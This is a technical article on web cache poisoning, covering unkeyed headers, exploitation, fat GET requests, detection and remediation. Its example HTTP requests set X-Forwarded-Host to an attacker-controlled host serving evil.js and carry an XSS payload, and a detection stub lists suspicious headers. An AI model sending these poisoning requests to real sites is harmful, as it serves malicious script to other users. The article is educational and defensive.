

## Introduction

Web cache poisoning allows attackers to persistently serve malicious content to other users by exploiting discrepancies in how caches and origin servers interpret HTTP requests. First systematically documented by James Kettle at PortSwigger, this class of vulnerabilities affects major CDN and reverse proxy deployments.

## Cache Key Fundamentals

Caches typically key responses on:

- Request method (GET)
- URL path and query string
- Host header
- Selected headers (Vary directive)

**Unkeyed inputs** — headers, cookies, or parameters not included in the cache key — become the attack surface.



## Identifying Unkeyed Headers

Using Param Miner (Burp Suite extension):

```http title="probe_request.http"
GET / HTTP/1.1
Host: target.com
X-Forwarded-Host: attacker.com
X-Original-URL: /admin
```

If the response reflects unkeyed header values, the target may be vulnerable.

## Exploitation Example

Consider an application that includes the `X-Forwarded-Host` header in absolute URL generation but the CDN does not key on this header:

```http title="poison_request.http"
GET /static/app.js HTTP/1.1
Host: target.com
X-Forwarded-Host: attacker.com/evil.js
```

If cached, subsequent users requesting `/static/app.js` receive JavaScript from `attacker.com`.

## Fat GET Requests

Some caches key on URL but forward request body to origin:

```http title="fat_get.http"
GET /?cb=123 HTTP/1.1
Host: target.com
Content-Type: x-www-form-urlencoded
Content-Length: 30

param=<script>alert(1)</script>
```

If the origin reflects the body in the response and the cache stores it against the URL, XSS persists for all users.

## Detection in Production

Monitor for:

- Unusual `Vary` header combinations in cached responses
- Cache HIT responses containing attacker-controlled domains
- Spike in requests with uncommon headers (`X-Forwarded-Host`, `X-Host`)

```python title="cache_monitor.py"
# Pseudo-detection logic
SUSPICIOUS_HEADERS = ['X-Forwarded-Host', 'X-Original-URL', 'X-Rewrite-URL']

def analyze_request(headers, cache_status):
    if cache_status == 'HIT':
        for h in SUSPICIOUS_HEADERS:
            if h in headers:
                alert(f"Cache HIT with unkeyed header: {h}")
```

## Remediation

1. Include all request components affecting responses in cache keys
2. Normalize header handling between cache and origin
3. Disable caching for dynamic content paths
4. Implement `Cache-Control: no-store` on sensitive endpoints

[^1]: James Kettle's research at Black Hat USA 2018 established the modern methodology for cache poisoning.

[^1]: PortSwigger Web Security Academy provides hands-on labs for cache poisoning techniques.
